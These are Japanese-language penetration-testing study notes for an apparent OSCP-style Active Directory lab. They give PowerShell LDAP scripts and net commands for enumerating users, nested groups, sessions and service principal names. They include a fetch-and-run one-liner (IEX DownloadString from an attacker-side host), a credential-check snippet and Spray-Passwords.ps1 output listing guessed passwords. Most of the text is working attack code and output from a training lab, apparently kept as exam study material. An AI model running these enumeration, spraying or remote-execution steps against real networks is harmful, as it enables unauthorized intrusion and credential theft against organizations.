




# ActiveDirectory



* ドメインに属していないマシーンもある
* DNSとの依存関係が強い。権威DNSサーバーをADがホストすることも多い

### Enumeration

* ローカルアカウント列挙

```
net user
```

* ドメイン全体のユーザ列挙

  ```
  net user /domain
  ```

* ユーザ詳細

  ```
  net user jeff_admin /domain
  ```

* ドメイン内のグループ列挙

  ```
  net group /domain
  
  ---
  *Another_Nested_Group
  ```

  ※あるグループ (およびそれに含まれるすべてのメンバー) を別のグループのメンバーとして追加することができる

* psを利用した列挙（DCでなくても収集できて便利な方法

  * かならずドメインユーザでログインした状態で実行すること

    ```
    rdesktop -g 95% 192.168.250.10
    corp\offsec
    lab
    ```
  
    
  
  * 実行前に以下を実施すること
  
    ```powershell
    powershell
    Get-ExecutionPolicy -Scope CurrentUser
    Set-ExecutionPolicy -ExecutionPolicy Unrestricted -Scope CurrentUser
    Get-ExecutionPolicy -Scope CurrentUser
    ```
    
    
  
  注意：ドメインユーザ（net user /domainで出てくるユーザでかつドメインを指定すること。ワークステーション自体にログインした状態にしないこと）
  
  ```powershell
  $domainObj = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()
  
  $PDC = ($domainObj.PdcRoleOwner).Name
  
  $SearchString = "LDAP://"
  
  $SearchString += $PDC + "/"
  
  $DistinguishedName = "DC=$($domainObj.Name.Replace('.', ',DC='))"
  
  $SearchString += $DistinguishedName
  
  $Searcher = New-Object System.DirectoryServices.DirectorySearcher([ADSI]$SearchString)
  
  $objDomain = New-Object System.DirectoryServices.DirectoryEntry
  
  $Searcher.SearchRoot = $objDomain
  
  $Searcher.filter="samAccountType=805306368"
  
  $Result = $Searcher.FindAll()
  
  Foreach($obj in $Result)
  {
      Foreach($prop in $obj.Properties)
      {
          $prop
      }
      
      Write-Host "------------------------"
  }
  ```
  
  詳細な説明は以下
  
  * LDAPのパスプロトタイプは以下
  
    ```
    LDAP://HostName[:PortNumber][/DistinguishedName]
    ```
  
  * ホスト名は以下で取得可能
  
    ```
    [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()
    
    ----
    PS C:\Users\offsec.CLIENT251> [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()
    
    Forest                  : corp.com
    DomainControllers       : {DC01.corp.com}
    Children                : {}
    DomainMode              : Unknown
    DomainModeLevel         : 7
    Parent                  :
    PdcRoleOwner            : DC01.corp.com
    RidRoleOwner            : DC01.corp.com
    InfrastructureRoleOwner : DC01.corp.com
    Name                    : corp.com
    ```
  
  * プライマリドメインコントローラーエミュレーターは、ドメインコントローラーによって行われる5つのオペレーションマスターロールまたはFSMOロール3 のうちの1つである。技術的には、このプロパティはPdcRoleOwnerと呼ばれ、このプロパティを持つドメインコントローラは、常にユーザーのログインと認証に関する最新の情報を持っている
  
  * DistinguishedNameはドメイン名（'corp.com'）を個々のドメインコンポーネント（DC）に分解したもので、スクリプトの出力に示すようにDistinguishedNameを "DC=corp,DC=com "にしている
  
  * LDAP プロバイダー・パスを使用して DirectorySearcher クラスをインスタンス化できます。DirectorySearcher クラスを使用するには、SearchRoot (検索を開始する Active Directory 階層内のノード) を指定する必要があり
  
  * フィルタを設定する1つの方法として、samAccountType属性がある。14 これは、すべてのuser、computer、groupオブジェクトが持つ属性である。リスト10に示すように、ドメイン内のすべてのユーザーを列挙するために、filterプロパティに0x30000000（10進数805306368）を指定

* PS Nested Groupsの列挙

  * グループ一覧の列挙

    ```powershell
    Get-ExecutionPolicy -Scope CurrentUser
    Set-ExecutionPolicy -ExecutionPolicy Unrestricted -Scope CurrentUser
    Get-ExecutionPolicy -Scope CurrentUser
    ```

    ```powershell
    $domainObj = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()
    
    $PDC = ($domainObj.PdcRoleOwner).Name
    
    $SearchString = "LDAP://"
    
    $SearchString += $PDC + "/"
    
    $DistinguishedName = "DC=$($domainObj.Name.Replace('.', ',DC='))"
    
    $SearchString += $DistinguishedName
    
    $Searcher = New-Object System.DirectoryServices.DirectorySearcher([ADSI]$SearchString)
    
    $objDomain = New-Object System.DirectoryServices.DirectoryEntry
    
    $Searcher.SearchRoot = $objDomain
    
    $Searcher.filter="(objectClass=Group)"
    
    $Result = $Searcher.FindAll()
    
    Foreach($obj in $Result)
    {
        $obj.Properties.name
    }
    ```

    

  * グループに絞ってメンバーをリストアップする

    ```powershell
    $domainObj = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()
    
    $PDC = ($domainObj.PdcRoleOwner).Name
    
    $SearchString = "LDAP://"
    
    $SearchString += $PDC + "/"
    
    $DistinguishedName = "DC=$($domainObj.Name.Replace('.', ',DC='))"
    
    $SearchString += $DistinguishedName
    
    $Searcher = New-Object System.DirectoryServices.DirectorySearcher([ADSI]$SearchString)
    
    $objDomain = New-Object System.DirectoryServices.DirectoryEntry
    
    $Searcher.SearchRoot = $objDomain
    
    $Searcher.filter="(name=Secret_Group)"
    
    $Result = $Searcher.FindAll()
    
    Foreach($obj in $Result)
    {
        $obj.Properties.member
    }
    ```

    ```powershell
    PS C:\Users\offsec\Documents> C:\Users\offsec\Documents\enumeAD.ps1
    CN=Nested_Group,OU=CorpGroups,DC=corp,DC=com
    ```

    さらに、Nested_Groupのメンバーを見てといった形で再帰的に確認をしていく

* ログオンしたユーザの調査

  * NetWkstaUserEnum

    * 管理者権限が必要

    * ワークステーションにログインしているすべてのユーザのリストを返却

    * 最初にモジュールをインポートする

      ```
      powershell
      Import-Module .\PowerView.ps1
      ```

      https://github.com/PowerShellEmpire/PowerTools/blob/master/PowerView/powerview.ps1

    * コマンド実行する

      ```
      Get-NetLoggedon -ComputerName client251
      ```

      * -ComputerNameオプション：対象のワークステーションまたはサーバーを指定

  * Get-NetSession

    * ドメインコントローラ上のアクティブなセッションを検索する

    * コマンドを実行する

      ```
      Get-NetSession -ComputerName dc01
      ```

  * インメモリーで実施する方法
  
    ```
    # kali
    wget https://github.com/PowerShellEmpire/PowerTools/blob/master/PowerView/powerview.ps1 -O powerview.ps1
    ```
  
    * ファイルを編集し末尾に実行したいコマンドを付ける
  
      
  
    ```
    powershell.exe -NoProfile -ExecutionPolicy unrestricted IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.119.250:8000/PowerView.ps1')
    ```
  
    
  
* サービスプリンシパルの調査

  ```powershell
  $domainObj = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()
  
  $PDC = ($domainObj.PdcRoleOwner).Name
  
  $SearchString = "LDAP://"
  $SearchString += $PDC + "/"
  
  $DistinguishedName = "DC=$($domainObj.Name.Replace('.', ',DC='))"
  
  $SearchString += $DistinguishedName
  
  $Searcher = New-Object System.DirectoryServices.DirectorySearcher([ADSI]$SearchString)
  
  $objDomain = New-Object System.DirectoryServices.DirectoryEntry
  
  $Searcher.SearchRoot = $objDomain
  
  $Searcher.filter="serviceprincipalname=*http*"
  
  $Result = $Searcher.FindAll()
  
  Foreach($obj in $Result)
  {
      Foreach($prop in $obj.Properties)
      {
          $prop
      }
  }
  ```

  ```
  PS C:\Users\offsec> C:\Users\offsec\Documents\SPN.ps1
  
  Name                           Value                                           
  ----                           -----                                           
  samaccountname                 {iis_service}                                   
  cn                             {iis_service}                                   
  pwdlastset                     {132103612659579749}                            
  whencreated                    {8/15/2019 4:47:45 PM}                          
  badpwdcount                    {0}                                             
  displayname                    {iis_service}                                   
  lastlogon                      {0}                                             
  samaccounttype                 {805306368}                                     
  countrycode                    {0}                                             
  objectguid                     {27 32 67 119 235 11 28 77 182 215 30 70 113 ...
  usnchanged                     {12796}                                         
  whenchanged                    {8/15/2019 4:47:49 PM}                          
  name                           {iis_service}                                   
  objectsid                      {1 5 0 0 0 0 0 5 21 0 0 0 98 137 189 240 11 2...
  logoncount                     {0}                                             
  badpasswordtime                {0}                                             
  accountexpires                 {9223372036854775807}                           
  primarygroupid                 {513}                                           
  objectcategory                 {CN=Person,CN=Schema,CN=Configuration,DC=corp...
  userprincipalname              {iis_service@corp.com}                          
  useraccountcontrol             {590336}                                        
  dscorepropagationdata          {1/1/1601 12:00:00 AM}                          
  serviceprincipalname           {HTTP/CorpWebServer.corp.com}                   
  distinguishedname              {CN=iis_service,OU=ServiceAccounts,OU=CorpUse...
  objectclass                    {top, person, organizationalPerson, user}       
  usncreated                     {12781}                                         
  adspath                        {LDAP://CN=iis_service,OU=ServiceAccounts,OU=...
  lastlogoff                     {0}                                             
  instancetype                   {4}                                             
  codepage                       {0}
  ```

  見つけたSPNを用いてIPアドレスの調査等も可能

  ```
  C:\Users\offsec>nslookup
  DNS request timed out.
      timeout was 2 seconds.
  Default Server:  UnKnown
  Address:  172.16.249.5
  
  > CorpWebServer.corp.com
  Server:  UnKnown
  Address:  172.16.249.5
  
  Name:    dc01.corp.com
  Address:  172.16.249.5
  Aliases:  CorpWebServer.corp.com
  
  > CorpSqlServer.corp.com
  Server:  UnKnown
  Address:  172.16.249.5
  
  Name:    dc01.corp.com
  Address:  172.16.249.5
  Aliases:  CorpSqlServer.corp.com
  ```

  nslookupも併せてやってしまうスクリプト

  ```powershell
  $domainObj = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()
  
  $PDC = ($domainObj.PdcRoleOwner).Name
  
  $SearchString = "LDAP://"
  $SearchString += $PDC + "/"
  
  $DistinguishedName = "DC=$($domainObj.Name.Replace('.', ',DC='))"
  
  $SearchString += $DistinguishedName
  
  $Searcher = New-Object System.DirectoryServices.DirectorySearcher([ADSI]$SearchString)
  
  $objDomain = New-Object System.DirectoryServices.DirectoryEntry
  
  $Searcher.SearchRoot = $objDomain
  
  $Searcher.filter="serviceprincipalname=*sql*"
  
  $Result = $Searcher.FindAll()
  
  Foreach($obj in $Result)
  {
      Foreach($prop in $obj.Properties)
      {
          $prop
          $SPN_initial = $prop.serviceprincipalname
          $SPN = $SPN_initial.split("/")[1].split(":")[0]
          Write-Host ""
          Write-Host "Sam Account Name : [+]" $prop.samaccountname n
          Write-Host "Service Principal Name : [+]" $SPN n
   
          If ($SPN -like "*.com") {
          nslookup $SPN
          }
      }
          Write-Host "--------------------------------------------------------"
  }
      
  
  ```

  https://github.com/EmpireProject/Empire/blob/master/data/module_source/situational_awareness/network/Get-SPN.ps1

  →Get-SPNでも同様のことが実施できる

  

### Low and Slow Password Guessing

カウントロックポリシーを事前に確認しパスワード攻撃をユーザ全体に行う方法

* ドメインのアカウントポリシーの確認

  ```cmd
  net accounts
  
  ----
  C:\Tools\active_directory>net accounts
  Force user logoff how long after time expires?:       Never
  Minimum password age (days):                          1
  Maximum password age (days):                          Unlimited
  Minimum password length:                              1
  Length of password history maintained:                24
  Lockout threshold:                                    Never
  Lockout duration (minutes):                           30
  Lockout observation window (minutes):                 30
  Computer role:                                        WORKSTATION
  The command completed successfully.
  ```

* powershellを利用したログイン試行

  ```powershell
  $domainObj = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()
    
  $PDC = ($domainObj.PdcRoleOwner).Name
  
  $SearchString = "LDAP://"
  $SearchString += $PDC + "/"
  
  $DistinguishedName = "DC=$($domainObj.Name.Replace('.', ',DC='))"
  
  $SearchString += $DistinguishedName
  
  New-Object System.DirectoryServices.DirectoryEntry($SearchString, "jeff_admin", "lab")
  ```

  * あっている場合

    ```powershell
    PS C:\Tools\active_directory> New-Object System.DirectoryServices.DirectoryEntry($SearchString, "jeff_admin",
     "lab")
    
    
    distinguishedName : {DC=corp,DC=com}
    Path              : LDAP://DC01.corp.com/DC=corp,DC=com
    ```

  * 間違っている場合

    ```powershell
    format-default : The following exception occurred while retrieving member "distinguishedName": "The user name or password is incorrect.
    "
      + CategoryInfo          : NotSpecified: (:) [format-default], ExtendedTypeSystemExce
      + FullyQualifiedErrorId : CatchFromBaseGetMember,Microsoft.PowerShell.Commands.Forma
    ```

* Spray-Passwords.ps1を利用する方法

  https://web.archive.org/web/20220225190046/https://github.com/ZilentJack/Spray-Passwords/blob/master/Spray-Passwords.ps1

  ```
  PS C:\Tools\active_directory> .\Spray-Passwords.ps1 -Pass Qwerty09! -Admin
  WARNING: also targeting admin accounts.
  Performing brute force - press [q] to stop the process and print results...
  Guessed password for user: 'adam' = 'Qwerty09!'
  Guessed password for user: 'iis_service' = 'Qwerty09!'
  Guessed password for user: 'sql_service' = 'Qwerty09!'
  Users guessed are:
   'adam' with password: 'Qwerty09!'
   'iis_service' with password: 'Qwerty09!'
   'sql_service' with password: 'Qwerty09!'
  PS C:\Tools\active_directory>
  ```

  * -File：ワードリストファイル
  * -Adminフラグ：管理者アカウントのテスト
